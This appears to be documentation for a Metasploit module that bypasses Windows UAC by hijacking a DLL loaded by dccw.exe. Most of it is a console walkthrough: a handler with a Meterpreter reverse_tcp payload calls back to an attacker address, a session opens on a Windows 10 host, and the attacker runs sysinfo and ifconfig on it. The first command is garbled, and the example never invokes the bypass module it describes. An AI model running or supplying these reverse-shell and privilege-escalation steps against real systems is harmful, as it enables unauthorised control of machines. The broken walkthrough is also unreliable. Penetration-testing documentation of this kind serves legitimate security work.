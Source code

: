 

## Description

This module adds a bypass for UAC that relies on DLL hijacking of the dccw.exe process.  It has been tested on and 
supports both x86 and x64 releases of Windows 8, 8.1, 10_1511, 10_1607, and 10_1703.  It does not work with any versions
of Windows 7.

### Vulnerable application setup
Not Applicable; works on stock Windows releases.

### Running Example:
```
> use exploit/multi/handleruse expl
>  set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
>  set LHOST <MSF_IP>
LHOST => <MSF_IP>
>  set LPORT 30009
LPORT => 30009
>  show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     <MSF_IP>  yes       The listen address
   LPORT     30009            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


> run -z
[*] Started reverse TCP handler on <MSF_IP>:30009 
[*] Starting the payload handler...
[*] Sending stage (957487 bytes) to <Win10x86_IP>
[*] Meterpreter session 1 opened (<MSF_IP>:30009 -> <Win10x86_IP>:50041) at 2017-10-03 12:17:42 -0700
[*] Session 1 created in the background.
> sessions -C sysinfo
[*] Running 'sysinfo' on meterpreter session 1 (<Win10x86_IP>)
Computer        : WIN10X86-1511
OS              : Windows 10 (Build 10586).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 4
Meterpreter     : x86/windows
> sessions -C ifconfig
```